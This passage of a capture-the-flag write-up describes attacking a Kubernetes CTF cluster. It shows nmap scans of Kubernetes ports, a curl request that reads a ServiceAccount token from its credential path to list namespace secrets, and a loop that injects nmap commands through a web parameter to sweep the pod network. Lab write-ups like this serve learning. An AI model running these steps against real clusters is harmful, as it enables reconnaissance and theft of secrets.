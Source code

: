 After reading some articles online about how to commonly attack Kubernetes, I decided to check for common Kubernetes ports as suggested by [https://github.com/calinah/learn-by-hacking-kccn/blob/master/k8s_cheatsheet.md](https://github.com/calinah/learn-by-hacking-kccn/blob/master/k8s_cheatsheet.md):

```bash
nmap -p 443,2379,4194,6443,8443,8080,9090,9099,10250,10255,10256 10.100.0.1
```

```shell
PORT     STATE    SERVICE
443/tcp   open     https
2379/tcp  filtered etcd-client
4194/tcp  filtered unknown
6443/tcp  filtered sun-sr-https
8080/tcp  filtered http-proxy
8443/tcp  filtered https-alt
9090/tcp  filtered zeus-admin
9099/tcp  filtered unknown
10250/tcp filtered unknown
10255/tcp filtered unknown
10256/tcp filtered unknown
```

I additionally added 9090 which is Prometheus' default, but all that I really learned is that the API server is running on port 443 and did some experiments curling the API server. For example, I learned how to do the equivalent of `kubectl get secrets -n foo` with curl using the ServiceAccount token of egg-thief that exists in the entry container:

```bash
curl -sk -X GET https://10.100.0.1:443/api/v1/namespaces/foo/secrets \
     --header "Authorization: Bearer `cat /run/secrets/kubernetes.io/serviceaccount/token`"
```

The exact same RBAC applies though, so no information relevant to the CTF was really gained other than this cluster isn't exposing extra information that it shouldn't be.

### nmap Pod CIDR on port 80

We can see that we're coming from 192.168.49.105 (entry) from port 53752 and coming into 192.168.94.0 (ssh) on port 6667 - from this we can guess the Pod CIDR: `192.168.0.0/16`! These IP addresses aren't stable by any means, but we can nmap this subnet in an attempt to find joker.

We know joker's running on port 80, but so do entry and egg. Unfortunately this command times out `nmap -p 80 192.168.0.0/16`. As a workaround, I ran this bash script locally (it took 71 minutes)!

```bash
#!/bin/bash
for i in {1..255}
do
  nmap=`curl -s http://k8s-ctf.rocks/?fcommand=nmap+-T5+-Pn+-p+80+192.168.$i.1-255`
  printf "%s" "$nmap" >> test.txt
done
```

I learned some things, but not what I was hoping to learn! I should have carefully read the documentation on [Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/) first because this method does not bypass an existing Network Policy - traffic is still blocked.
>By default, pods are non-isolated; they accept traffic from any source.
>Pods become isolated by having a NetworkPolicy that selects them. Once there is any NetworkPolicy in a namespace selecting a particular pod, that pod will reject any connections that are not allowed by any NetworkPolicy.
